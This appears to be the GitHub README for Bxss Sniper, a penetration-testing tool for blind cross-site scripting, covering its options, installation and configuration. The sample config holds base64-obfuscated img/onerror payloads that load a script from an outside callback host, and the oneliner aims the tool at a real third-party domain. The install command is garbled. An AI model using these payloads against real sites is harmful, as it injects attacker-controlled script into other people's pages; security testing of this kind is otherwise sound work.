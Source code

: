 # Bxss Sniper

Bxss Sniper is a web application penetration testing tool designed for Blind Cross-Site Scripting (BXSS) detection. This ethical hacking tool empowers security professionals and developers to identify and analyze potential BXSS vulnerabilities in web applications.

### Features

- **Blind XSS Detection:** Bxss Sniper specializes in detecting and testing for Blind Cross-Site Scripting vulnerabilities in web applications.

- **Flexible Testing Options:** Test a single URL or multiple URLs using a file containing a list of targets.

- **Silent Mode:** Enable silent mode to print only the output without displaying the banner and version information.

- **Output Customization:** Specify an output file to save the results for further analysis.

- **Proxy Support:** Switching proxies allows you to send requests through your configured proxy, such as Burp Suite.

- **Timeout Configuration:** Customize the timeout duration for requests, useful for both regular testing and integration with tools like Burp Suite.

- **Concurrency Control:** Adjust the concurrency level for multiple processes, enhancing the efficiency of the testing process.

- **Support Oneliners:** Bxss Sniper supports oneliners to improve your reconnaissance

### Oneliners:

Bxx Sniper supports integration with subdominator which can be easy to detect for blid cross site scripting.

```bash
subdominator -d glia.com -o results.txt --config | bxsniper --silent --concurrency 20 -o bxss.txt
```
![Screenshot from 2023-12-02 17-14-34](https://github.com/sanjai-AK47/Bxss_Sniper/assets/119435129/cbb8797f-7cb9-4e2d-aa6b-ba7d1db18748)



### Command Line Usage
```bash
usage: bxsniper [-h] [-uf URLS_FILE] [-u URL] [-s] [-o OUTPUT] [-px PROXY] [-to TIME_OUT] [-c CONCURRENCY]

[DESCRIPTION]: Bxss Sniper: A web application penetration testing tool for Blind XSS detection

options:
  -h, --help            show this help message and exit
  -uf URLS_FILE, --urls-file URLS_FILE
                        [INFO]: A file that contains a list of URLs to test for blind cross-site scripting
  -u URL, --url URL     [INFO]: A single URL to test for blind cross-site scripting
  -s, --silent          [INFO]: Silently print only output and not print the banner and version
  -o OUTPUT, --output OUTPUT
                        [INFO]: Filename to write the output
  -px PROXY, --proxy PROXY
                        [INFO]: Switching proxy will send requests to your configured proxy (e.g., Burp Suite)
  -to TIME_OUT, --time-out TIME_OUT
                        [INFO]: Switching timeout will send requests till your timeout and also for Burp Suite
  -c CONCURRENCY, --concurrency CONCURRENCY
                        [INFO]: Concurrency level for multiple processes
```


### Installation:

#### Method 1:

```bash
pip install bxss-sniperpip install bxss-snipe

bxsniper --help
```
[INFO]: After Installing the Bxss Sniper tool through pip copy the configuration yaml file from the github if you don't have in your machine.

#### Method 2:

```bash
git clone https://github.com/sanjai-AK47/Bxss_Sniper.git

cd Bxss_Sniper

pip install .

bxsniper --help
```

### Configuration:

To detect and do automation with Bxss Sniper users need to configure your `bxss-config.yaml` which you can store your Bxss payloads and Detects for Blind Cross Site Scripting
follow the instruction and syntax to config you `bxss-config.yaml`

```yaml
BlindXSS-Payloads:  #Max Payload 5-7

  - '"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3Jgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vamVycnkuYnhzm9keS5hcHBlbmRDaGlsZChhKTs&#61;&#61 onerror=eval(atob(this.id))>'
  - "'><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS57ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61;&#61 onerror=eval(atob(this.id))>"
```

[Note]: If your payload have different quotes users are suggessted to give payloads without any yaml syntax errors
        to check your yaml syntax you can check [here](https://yamlchecker.com/) by pasting your payload in that it will notify the errors for you

### Contributors:

- **[D.Sanjai Kumar](https://www.linkedin.com/in/d-sanjai-kumar-109a7227b/):**  Author and Developer of Bxss Sniper
- **[Jerry](https://www.linkedin.com/in/md-hasan-03596a1b5/):**  Source Provider of Bxss Sniper
- **[AslamX3R](https://www.linkedin.com/in/aslamx3r/):**  Source Provider of Bxss Sniper

### Information:

Bxss Sniper is made for web application pentesters and Ethical hackers for Ethical purpose only . The Developer and the Source providers are not responsible for 
any unethical actions.

### Support:

Bxss Sniper is an open-source project that thrives on community collaboration. Contribute by:

- **Code:** Submit pull requests for bug fixes, features, or documentation enhancements.

- **Issues:** Report bugs, vulnerabilities, or suggest improvements.

- **Spread the Word:** Share Bxss Sniper with your network.

### How to Support:

- **Star the Repo:** Show your support on GitHub.

- **Share:** Spread the word on social media and in your communities.

- **Financially:** Help cover hosting and maintenance costs with a financial contribution.

Your contributions and support are vital to Bxss Sniper's success. Thank you for being part of our community! 🌟

